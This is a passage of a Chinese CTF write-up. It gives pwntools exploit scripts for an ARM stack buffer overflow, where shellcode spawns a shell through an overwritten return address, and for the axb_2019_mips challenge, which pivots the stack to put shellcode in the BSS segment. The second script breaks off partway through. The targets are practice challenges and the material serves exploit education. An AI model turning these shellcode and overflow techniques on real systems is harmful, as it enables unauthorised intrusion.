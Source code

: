 ```python
elf = ELF("./root_me_stack_buffer_overflow_basic")
libc = ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6")

shellcode = asm(shellcraft.sh())

p.recvuntil(":\n")
p.sendline("skye")
p.sendline('Y')
stack_addr = int(p.recv(10),16)
log.info("stack_addr:"+hex(stack_addr))

payload = shellcode.ljust(0xA0,'\x90') + p32(0xdeadbeef) + p32(stack_addr)
#payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

p.recvuntil(":\n")
p.sendline(payload)
sleep(0.2)
p.sendline('n')

p.interactive()
```

## axb_2019_mips

> 题目源码：[:link:](https://github.com/D0g3-Lab/i-SOON_CTF_2019/blob/master/Pwn/mips)

### 基本情况

qemu-mipsel运行，提示缺少库，最快速的解决方法是下载现成的库，省去自己编译。Mipsel的uclibc库在这里https://github.com/MonkeyJacky/mipsel-linux-uclibc

vuln 函数里存在栈溢出。

$fp寄存器的值，在我们溢出后函数结束时，就会被栈里的值覆盖，因此,$fp可控，从而$v0可控，从而$a1可控。而$a0、$a2也在代码里控制住了。因此,我们让$a1指向bss段，从而可以向bss段输入shellcode。当read结束后, move  $sp, $fp指令会使得栈发生迁移，我们在bss段的shellcode前面放置shellcode的地址，，这样shellcode的地址就会被放入到$ra寄存器，进而可以ret到shellcode。

### EXP

```python
#encoding:utf-8
from pwn import *
import sys
context.binary = "pwn2"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("node3.buuoj.cn", 28110)
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel", "-L", "/usr/mipsel-linux-uclibc", "pwn2"])
else:
    p = process(["qemu-mipsel", "-g", "1234", "-L", "/usr/mipsel-linux-uclibc", "pwn2"])

elf = ELF("pwn2")
libc = ELF("/usr/mipsel-linux-uclibc/lib/libc.so.0")

padding = 36
bss = 0x410B70
text_read = 0x4007E0

p.recvuntil("What's your name:")
p.sendline("skye")
```